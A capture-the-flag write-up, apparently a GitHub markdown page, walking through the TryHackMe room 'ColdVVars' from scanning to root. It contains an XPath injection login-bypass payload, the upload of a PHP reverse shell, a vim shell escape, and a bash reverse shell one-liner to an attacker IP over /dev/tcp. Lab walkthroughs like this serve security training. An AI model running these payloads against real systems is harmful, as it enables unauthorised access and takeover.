

# ColdVVars

* This is a writeup for the room ["ColdVVars"](https://tryhackme.com/room/coldvvars) by cirius & fl4shi3r at TryhackMe

* I completed this room using Parrot OS so there might be a syntax difference if you use another Linux distribution.

* This challenge is marked as MEDIUM difficulty but I believe hackers of all levels can complete it and learn a lot from it!

                ** HAVE FUN!! 
                
                

* First we start with our nmap scan!

* 2 SMB ports open (139, 445) and 2 HTTP ports open as well (8080, 8082)

* Doing a directory search on both HTTP ports using gobuster...

* We find /dev on port 8080 and /login on port 8082

* Taking a peek at the login page...

* In the room description, it says "XPath Injection" (pro TryHackMe tip!! Looking at the room's description can give us 
a nice hint on how to solve it!!). If you are not familiar with this type of attack, there is absolutely no shame in just googling it!! There is no limit to how many new things you can learn by just googling attacks, exploits etc.

* Going through https://book.hacktricks.xyz/pentesting-web/xpath-injection you will see ...

* Great! Let's try that one then!! Insert `" or 1=1 or " `  in the username field ...

* And the credentials we need are the last ones in the list!!

* Using a tool called `smbmap` we enumerate shares now that we have username:password!!

* We see SECURE which is in Dev (we found a /dev on port 8080, remember??) 

* Using `smbclient` we check out that share and find a file called `note.txt`

* We cab check its contents quickly by using `curl`

* Awesome!! That means we can upload files in there as well, which includes a reverse php shell!! (I uploaded the shell I used here in this repository, for easier, faster access)

* We start a netcat listener, and activate our shell by simply using curl again ( you can also just do this through web browser!)

* And we get our reverse shell!!

* tmux, tmux, tmux ... hmmmmmmm ....look at that `zzzzzzzz root@localhost` output! (Can you guess what we will use to escalate privileges??) 

* But let's not get ahead of ourselves. First stabilize the shell, switch users and get user.txt

* Sweet. Going by the name of the room, we should go check `env` next!

* In the middle of that output, something looks interesting ...`OPEN_PORT=4545` ... let's see if we can connect to this port using netcat ...

* Choosing the option 4 (just type 4 and hit ENTER) will bring you to a vim page (yeah, UGH, I know lol) 

* hit ESC before doing anything (or else you will be stuck in that vim nightmare forever!!)
* AFTER hitting ESC

    * :!/bin/sh
    * id (only to confirm! You will see "marston" which is a word that also appears there when we got the reverse shell)
    * open another terminal tab and start a netcat listener
    * type `bash -c 'bash -i >& /dev/tcp/10.4.31.108/7778 0>&1'` but substitute the IP for your IP!
    
    

* Remember all that tmux, tmux, tmux we saw when we got our reverse shell? We will attach to the tmux session and go to the window where marston used ssh as root! Follow this:

    * First stabilize the shell by typing `python3 -c "import pty;pty.spawn('/bin/bash')"`
    * Then next do Ctrl Z. It will appear as if you killed the shell, but no, you just detached from it
    * Next, type `stty raw -echo; fg`
    * Next, open another tab in your terminal and type `stty size` 
    

* Continuing with the process:

    * These numbers might be different for you. These are the rows and columns the terminal window has.
    * Next go back to the tab where the shell is and type `stty rows 26 cols 96`  (substitute by the numbers that come to you)
    * Next type `export TERM=xterm`
    * Next type `tmux attach`
    

* Now we need to find the window where the root is. To move windows, Crtl b, then hit n, until you see

* To be able to type in the root window, Crtl b, then hit o

* YAY!!!!! We did it!!! I am NOT a tmux fan/ user so this was quite a challenge!

I hope you enjoyed this super challenging room and thank you so much for reading my writeup!!

Happy Hacking!!

                   `Crypto Tzipi aka CyberLola`

